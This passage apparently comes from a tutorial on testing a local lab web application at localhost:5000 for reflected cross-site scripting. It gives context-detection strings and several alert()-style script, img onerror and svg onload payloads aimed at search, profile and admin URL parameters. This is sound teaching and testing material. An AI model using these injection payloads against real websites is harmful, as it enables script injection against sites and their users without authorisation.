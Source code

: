 #### 2.2 Context Detection
Understand where your input appears in the HTML:

```html
<!-- HTML context -->
<script>console.log('CONTEXT_TEST')</script>

<!-- Attribute context -->
" onmouseover="alert('XSS')" "

<!-- JavaScript context -->
'; alert('XSS'); //
```

### Phase 3: Reflected XSS Testing

#### 3.1 Search Functionality Testing
Test the search page at `/search?q=PAYLOAD`:

```bash
# Basic reflection test
http://localhost:5000/search?q=<script>alert('Reflected_XSS')</script>

# Event handler payload
http://localhost:5000/search?q=<img src=x onerror=alert('Search_XSS')>

# Multiple parameter test
http://localhost:5000/search?q=<script>alert('XSS')</script>&type=<script>alert('Type_XSS')</script>
```

#### 3.2 Profile Page Testing
Test the profile page at `/profile?user=PAYLOAD&bio=PAYLOAD`:

```bash
# Username parameter XSS
http://localhost:5000/profile?user=<script>alert('User_XSS')</script>

# Bio parameter XSS
http://localhost:5000/profile?bio=<img src=x onerror=alert('Bio_XSS')>

# Combined payload
http://localhost:5000/profile?user=admin&bio=<svg onload=alert('Profile_Compromised')>
```

#### 3.3 Admin Panel Testing
Test the admin panel with reflected XSS:

```bash
# Session parameter XSS
http://localhost:5000/admin?session=<script>alert('Admin_Session_XSS')</script>

# Debug parameter XSS
http://localhost:5000/admin?debug=<img src=x onerror=alert('Debug_XSS')>

# Combined admin compromise
http://localhost:5000/admin?session=admin123&debug=<script>document.body.style.background='red'</script>
```
